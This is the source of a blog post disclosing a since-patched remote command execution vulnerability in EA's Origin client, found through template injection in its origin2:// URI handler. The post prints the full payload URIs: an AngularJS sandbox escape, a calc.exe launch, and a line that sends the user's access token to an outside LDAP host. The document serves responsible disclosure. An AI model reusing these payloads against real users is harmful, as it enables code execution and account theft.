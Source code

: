 ```yaml
---
layout: post
title: "RCE in EA's Origin client"
date: 2019-04-16
author: Daley Bee
img: post01.jpg
thumb: thumb01.jpg
description: "Hello, and welcome! As you probably gathered by the title, today we will be going over a remote command execution vulnerability identified in EA's Origin desktop client. This issue was both identified and reported by Dominik Penner and Daley Bee of Underdog Security."
---
```


{% include twitter_card.html %}

Hello, and welcome! As you probably gathered by the title, today we will be going over a remote command execution vulnerability identified in EA's Origin desktop client. This issue was both identified and reported by Dominik Penner and Daley Bee of Underdog Security.
<!--more-->

### What is Origin?
Origin is an online gaming, digital distribution and digital rights management platform developed by Electronic Arts that allows users to purchase games for PC and mobile platforms. Origin is home to gaming title giants such as Apex Legends, The Sims, and Battlefield. 
### What did we find?
We located a client-sided template injection, where we proceeded to use an AngularJS sandbox escape and achieve RCE by communicating with QtApplication's QDesktopServices.
### Technical explanation
We were simply curious and looking around at the `origin2` URI handler, when we came across a parameter where we could supply data that would be echoed back to us in the Origin client, prompting us to start tinkering. 

Example: 
{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title=example
{% endraw %}
{% endhighlight %}

![example title](/assets/origin_orce/example_title.jpg)

After some quick testing, we learnt that there was a client-sided template injection in the `title` parameter. 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{668.5*2}}
{% endraw %}
{% endhighlight %}

![1337 template injection](/assets/origin_orce/template_injection.jpg)

What next!? We already knew due to prior tinkering that Origin ran on AngularJS. Thanks to amazing work by other researchers in the past, with a simple Google search, we can find plenty of working AngularJS sandbox escapes. We used these: [link to payloads](https://gist.github.com/mccabe615/cc92daaf368c9f5e15eda371728083a3)

With these payloads, we were able to escape the AngularJS sandbox using the template injection. This is the payload we used: 

{% highlight ruby %}
{% raw %}
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(l),a')}}
{% endraw %}
{% endhighlight %}

The entire payload ended up becoming: 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
{% endraw %}
{% endhighlight %}

![sandbox escape](/assets/origin_orce/sandbox_escape.jpg)

We then learnt that by leveraging the in-client API, you can communicate with the QtApplication's QDesktopServices. 

To pop a calculator, we used the following payload:

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,Origin.client.desktopServices.asyncOpenUrl("calc.exe"),a')}}
{% endraw %}
{% endhighlight %}

As normal with an RCE, this would've allowed an attacker to execute any kind of commands their heart desired on a targets machine. Not good to say the least...

An attacker could also steal a users access token many of ways, for example, through LDAP: 

{% highlight ruby %}
{% raw %}
origin2://game/launch?offerIds=0&title={{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,Origin.client.desktopServices.asyncOpenUrl("ldap://safe.tld/o="+Origin.user.accessToken()+",c=UnderDog"),a')}}
{% endraw %}
{% endhighlight %}

Moral to the story Origin; sanitize your inputs!

Thank you for reading!

----
### Disclosure timeline
* April 15, 2019 - Vulnerability identified
* April 16, 2019 - Vulnerability reported
* April 16, 2019 - Vulnerability patched
* April 16, 2019 - Public disclosure

* Dominik Penner - [Twitter](https://twitter.com/zer0pwn)
* Daley Bee - [Twitter](https://twitter.com/daley)

